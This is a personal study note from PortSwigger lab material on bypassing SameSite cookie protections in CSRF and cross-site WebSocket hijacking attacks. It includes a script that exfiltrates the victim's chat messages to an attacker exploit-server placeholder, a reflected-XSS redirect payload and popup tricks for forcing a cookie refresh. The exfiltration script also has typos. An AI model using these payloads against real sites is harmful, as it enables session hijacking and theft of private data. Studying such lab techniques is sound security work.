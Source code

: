 
2024-07-24 15:01

Source: #portswigger #web 

Tags: [[CSRF]] [[SameSite cookie]] 

### Bypassing SameSite Lax restrictions using GET requests

If servers also use `Lax` restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a CSRF attack by eliciting a `GET` request from the victim's browser. 
As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. 

Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, `Symfony` supports the `_method `parameter in forms, which takes precedence over the normal method for routing purposes

### Bypassing SameSite restrictions using on-site gadgets

- If a cookie is set with the` SameSite=Strict` attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site. 
- One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters.
- Note that the equivalent attack is not possible with server-side redirects. 
If the site is redirecting then find a script that is doing the redirect, study the script, find a parameter that we can manipulate, then do directory traversal 

### Bypassing SameSite restrictions via vulnerable sibling domains

In addition to classic `CSRF`, don't forget that if the target website supports `WebSockets`, this functionality might be vulnerable to cross-site [[WebSocket]] hijacking (CSWSH), which is essentially just a CSRF attack targeting a WebSocket handshake. 
##### Lab:
in the lab we have a chat feature that uses websockets, when capturing the request on burp we see that we send a ready message and the websocket server responds with the entire chat history that is tied to our session cookie
in http history find a response that mentions switching protocol in that corresponding request check if the request contains all the points for it to be CSRF vulnerable. 
###### samesite: None
 
with no restrictions we can add the following script on our website 
once the victim has visited the page we see that we can see the chat message from our victim now but because of the same site equals strict session cookie restriction we're only seeing chat messages or the chat message for a new chat session.

```js
<script>
var webSocket = new WebSocket("lab-url/chat");

webSocket.onopen = function(evt){
	webSocket.send("READY");
};

webSocket.onmessage = function(evt){
	var message = evt.data;
	fetch("exploit-server-url/exploit?message=")+btao(message);
};
</script>
```
###### samesite: Strict

- If our application was something like a Blog I would look for the comments section and I would check whether the any of the fields in the comment section are vulnerable to a stored cross-site scripting attack because that way we could store our payload in there and send our victim a link to the post that includes our payload that we injected through cross-site scripting
- but our application is just a product page 

- we see for request with `chat.js` for example we can see that the response header `Access-Control-allow-origin` here reveals an additional sibling domain and it's hosted on the same main domain
- If there was a stored cross-site scripting or reflected cross-site scripting vulnerability within this endpoint it would still honor the same site restriction
- since there is a reflected xss vuln on the new domain 
- we see that the login (new domain) endpoint also accepts our payload as a get request
- the payload we used in `samesite: None` can be used on the new domain
- we url encode the whole payload and add it to the url of the new domain 
- when crafting the payload on the exploit server we write
```
<script>
	document.location="newdomain-url/urlencoded-payload";
</script>
```

#### Bypassing SameSite Lax restrictions with newly issued cookies

If a website doesn't include a `SameSite` attribute when setting a cookie, Chrome automatically applies `Lax` restrictions by default. However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 120 seconds on top-level POST requests. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

This two-minute window does not apply to cookies that were explicitly set with the `SameSite=Lax` attribute.

It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack. For example, completing an OAuth-based login flow may result in a new session each time as the OAuth service doesn't necessarily know whether the user is still logged in to the target site. 

 To trigger the cookie refresh without the victim having to manually log in again, you need to use a top-level navigation, which ensures that the cookies associated with their current OAuth session are included. This poses an additional challenge because you then need to redirect the user back to your site so that you can launch the CSRF attack.

Alternatively, you can trigger the cookie refresh from a new tab so the browser doesn't leave the page before you're able to deliver the final attack. A minor snag with this approach is that browsers block popup tabs unless they're opened via a manual interaction. For example, the following popup will be blocked by the browser by default:
```js
window.open('https://vulnerable-website.com/login/sso');
```

To get around this, you can wrap the statement in an onclick event handler as follows:
```js
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```

This way, the `window.open()` method is only invoked when the user clicks somewhere on the page. 

### References
